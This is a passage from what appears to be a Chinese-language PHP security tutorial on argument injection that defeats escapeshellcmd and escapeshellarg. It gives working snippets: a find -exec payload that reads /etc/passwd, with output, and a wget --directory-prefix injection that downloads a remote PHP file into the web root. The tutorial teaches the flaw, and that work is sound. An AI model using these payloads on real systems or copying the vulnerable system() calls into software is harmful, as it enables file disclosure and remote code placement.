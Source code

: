 
```
&lt;?php
	$file = "sth -or -exec cat /etc/passwd ; -quit";
	system("find /tmp -iname ".escapeshellcmd($file));
?&gt;

=&gt;
root:x:0:0:root:/root:/bin/bash
......

```

#### Escapeshellcmd和escapeshellarg

> 
在这个配置中，我们可以传递第二个参数给函数。<br/> 列出/tmp目录并忽略sth文件


```
&lt;?php
	$arg = "sth";
	system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
?&gt;

```

> 
在/tmp目录中列出文件并忽略sth；使用长列表格式


```
$arg = "sth' -l ";
// ls --ignore='exploit'\'' -l ' /tmp
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));

```

> 
WGET，下载example.php


```
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));

```

> 
保存.php文件到指定目录


```
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));

```

#### 用.bat执行命令
